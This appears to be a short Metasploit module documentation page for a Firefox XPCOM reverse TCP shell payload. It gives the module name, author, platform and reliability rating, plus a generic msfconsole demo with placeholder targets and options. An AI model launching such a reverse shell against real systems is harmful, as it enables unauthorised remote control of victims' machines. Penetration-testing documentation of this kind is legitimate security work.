## Command Shell, Reverse TCP (via Firefox XPCOM script)

Creates an interactive shell via Javascript with access to 
Firefox's XPCOM API


## Module Name
payload/firefox/shell_reverse_tcp

## Authors
* joev





## Platforms
firefox

## Reliability
[Normal](https://github.com/rapid7/metasploit-framework/wiki/Exploit-Ranking)

## Demo

```
msf > use payload/firefox/shell_reverse_tcp
msf payload(shell_reverse_tcp) > show targets
   ... a list of targets ...
msf payload(shell_reverse_tcp) > set TARGET <target-id>
msf payload(shell_reverse_tcp) > show options
   ... show and set options ...
msf payload(shell_reverse_tcp) > run
```
    
    
